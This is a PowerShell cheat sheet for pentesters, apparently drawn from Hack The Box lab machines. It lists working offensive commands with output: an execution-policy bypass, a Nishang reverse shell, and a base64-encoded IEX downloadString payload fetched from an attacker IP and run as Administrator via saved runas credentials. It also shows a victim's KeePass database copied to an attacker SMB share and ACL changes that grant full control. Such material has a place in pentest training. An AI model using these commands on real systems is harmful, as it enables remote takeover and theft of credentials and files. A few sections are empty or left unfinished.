


# Powershell Cheat Sheet for Pentesters

Useful Powershell commands for Pentesting purposes. 
 

## Load Powershell

### Method 1 (CMD):

```powershell
C:\> powershell 
C:\> powershell -ep bypass #Bypass Execution Policy
C:\> %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\> %SystemRoot%\SysNative\WindowsPowershell\v1.0\powershell.exe
```
- **System3** : On a 32-bit computer, all 32-bit programs store their files in C:\Program Files, and the system-wide library location is C:\System32.

- **SysWOW64** :  On a 64-bit computer, 64-bit programs store their files in C:\Program Files, and the system-wide C:\Windows\System32 folder contains 64-bit libraries. 32-bit programs store their files in C:\Program Files (x86), and the system-wide folder is C:\Windows\SysWOW64.

- **Sysnative** : is a virtual folder, a special alias, that can be used to access the 64-bit System32 folder from a 32-bit application or script. If you for example specify this folder path in your application's source code:
    
	Example :
	```powershell
	C: >  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
	```
	

### Method 2 (Meterpreter) :

```shell
	meterpreter > load powershell
	meterpreter > powershell_shell
```

### Method 3 (Nishang):
```powershell  
root > emacs -nw /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
	    # Copy this command at the end of script and change [IP] and [PORT] :
		Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]

root > python -m SimpleHTTPServer 80
C:\> powershell -ep bypass . .\Invoke-PowerShellTcp.ps1
```
------------------------------------
## Working with Files

### Search file:

```powershell
C:\users\alfred>  Get-ChildItem -Recurse C:\ user.txt -ErrorAction  SilentlyContinueSilentlyContinue
```

### Cat substring:

```powershell
PS C:\users\alfred> Get-Content user.txt
PS C:\users\alfred> (Get-Content user.txt).substring(0,16)  
```

------------------------------------
## Encoding


### Encode file with base64

```powershell
PS C:\Users\Phineas\Desktop> $fc = Get-Content "Oracle issue.txt"
PS C:\Users\Phineas\Desktop> $fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
PS C:\Users\Phineas\Desktop> [System.Convert]::ToBase64String($fe)
```


### Encode Powershell command with base64 for windows (Little Endian)

```
root:~/InfoSec/CTF/Plateforms/HTB/VIP/Access > echo -n "IEX(New-Object Net.webClient).downloadString('http://10.10.14.35/xang.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

```powershell
PS > runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgB3AGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMANQAvAHgAYQBuAGcALgBwAHMAMQAnACkA"
```

```shell
root:~/InfoSec/CTF/Plateforms/HTB/VIP/Access >  nc -lvp 9002
        PS C:\Users\Administrator\Desktop> whoami
        access\administrator
```
------------------------------------
## Symbolic Links

### Examining Symbolic Link

```powershell
PS C:\Users\Public\Desktop> type "ZKAccess3.5 Security System.lnk"
PS C:\Users\Public\Desktop> $WScript = New-Object -ComObject Wscript.Shell     
PS C:\Users\Public\Desktop> $shortcut = Get-ChildItem *.lnk
PS C:\Users\Public\Desktop> $shortcut


        Directory: C:\Users\Public\Desktop


        Mode                LastWriteTime     Length Name                                                                  
        ----                -------------     ------ ----                                                                  
        -a---         8/22/2018  10:18 PM       1870 ZKAccess3.5 Security System.lnk                                       


PS C:\Users\Public\Desktop> $WScript.CreateShortcut($shortcut)


        FullName         : C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk
        Arguments        : /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
        Description      : 
        Hotkey           : 
        IconLocation     : C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico,0
        RelativePath     : 
        TargetPath       : C:\Windows\System32\runas.exe
        WindowStyle      : 1
        WorkingDirectory : C:\ZKTeco\ZKAccess3.5
```

## Processes

 ### Check Process Architecture
------------------------------------
 Always check if your current process match the architecture of the target machine, otherwise you could face some issues
 
 ```powershell

	PS > [environment]::Is64BitOperatingSystem
		True
	PS > [environment]::Is64BitProcess
		False
 ```


## Servers 

### Start SMB Server without authentication
------------------------------------
- On the attacker's machine run:

	 ```shell
	 root > smbserver.py [NAME_SMB_SERVER]  `[SHARED_FOLDER]` 
	 ```
	 
 
- On the windows machine, connect to the smb server :
	 ```powershell
		PS > New-PSDrive -Name "SadiDrive" -PSProvider "FileSystem" -Root "\\10.10.14.35\lordofsadi-smb-server"

		PS > New-PSDrive -Name "SadiDrive" -PSProvider "FileSystem" -Root "\\10.10.14.35\lordofsadi-smb-server"

		Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
		----           ---------     --------- --------      ----                                               ---------------
		SadiDrive                              FileSystem    \\10.10.14.35\lordofsadi-smb-server


		PS > cd SadiDrive:
		PS > cp C:\Users\kohsuke\Documents\CEH.kdbx .  # copy from victim machine to our local machine

- On the attacker's machine, verify the connection:


------------------------------------
 ### Start SMB Server with authentication
------------------------------------
 
                
 
## ACL Control

```powershell
PS C:\users\administrateur> Get-ACL [File or directory] |  Fl* # check the ACL of the current directory of file (the interesting parts are in AccessToString and Owner Section)  (Fl * : Format List)
PS C:\users\administrateur> icacls root.txt /grant Alfred:(F) # Modify ACL of file root.txt , give full control to alfred (method 1)
PS C:\users\administrateur> cacls  root.txt /t /e /p Alfred:F  # Modify ACL of file root.txt , give full control to alfred (method 2)
```      

------------------------------------
## Issues
 ------------------------------------
### Function Call

Sometimes when we get a cmd reverse shell and we want to run "*powershell -ep bypass*", we get stuck, to fix the issue : try to call the function directly, instead of running the whole script.

- **Example** *(Powerup)*: 

	```
	root > emacs -nw powerup.ps1 
		   # add Invoke-AllChecks at the end of file

	C: > powershell -ep bypass . .\PowerUp.ps1
	```         

## Acknowledgments

*  [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) 